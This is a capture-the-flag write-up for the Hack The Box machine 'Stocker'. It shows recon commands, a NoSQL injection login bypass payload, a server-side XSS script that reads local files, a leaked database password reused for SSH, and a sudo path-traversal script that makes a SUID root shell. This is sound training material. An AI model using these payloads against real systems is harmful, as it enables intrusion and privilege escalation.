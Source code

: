 ## HTB: Stocker Walkthrough

## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)

### Recon

#### Nmap Scan
```bash
nmap -p- --min-rate 10000 10.10.11.196
nmap -p 22,80 -sCV 10.10.11.196
```
- Open Ports: 22 [SSH](SSH), 80 [HTTP](HTTP)
- Hostname Redirects to: `stocker.htb`
- Added `stocker.htb` and `dev.stocker.htb` to `/etc/hosts`

#### Subdomain Discovery
```bash
ffuf -u http://10.10.11.196 -H "Host: FUZZ.stocker.htb" -w /opt/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -mc all -ac
```
- Found `dev.stocker.htb`

#### Web Enumeration
- `stocker.htb` is a static site
- `dev.stocker.htb` is an Express.js application with a login form

### Shell as angoose

#### NoSQL Injection Auth Bypass
```json
{"username": {"$ne": "0xdf"}, "password": {"$ne":"0xdf"}}
```
- Logs in successfully due to likely NoSQL-based auth.

#### PDF File Read via Server-Side XSS (SSXSS)
- Purchase items and manipulate `title` field in basket JSON.
- Injected JS payload:
```js
<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///etc/passwd");x.send();</script>
```
- Retrieved `/etc/passwd` and `/var/www/dev/index.js`

#### Found MongoDB URI
```js
'mongodb://prod_user:IHeardPassphrasesArePrettySecure@localhost/prod?authSource=admin&w=1'
```
- Tried SSH with these creds: `ssh angoose@stocker.htb`

#### Gained access:
```bash
sshpass -p 'IHeardPassphrasesArePrettySecure' ssh angoose@stocker.htb
```

### Shell as root

#### Sudo Rights
```bash
sudo -l
(ALL) /usr/bin/node /usr/local/scripts/*.js
```
- Scripts are owned by root and unreadable, but wildcard allows path traversal

#### Exploiting Path Traversal in sudo
```javascript
// /dev/shm/0xdf.js
require('child_process').exec('cp /bin/bash /tmp/0xdf; chown root:root /tmp/0xdf; chmod 4777 /tmp/0xdf')
```
```bash
sudo node /usr/local/scripts/../../../dev/shm/0xdf.js
/tmp/0xdf -p
```

#### Gained Root Access
```bash
/tmp/0xdf -p
cat /root/root.txt
```

---

### Summary
- NoSQL Injection for initial login
- Server-Side XSS to read files from the host
- Exfiltrated DB credentials to access SSH
- Wildcard misconfiguration in sudo allows path traversal to arbitrary root shell

Rooted `Stocker` 🎉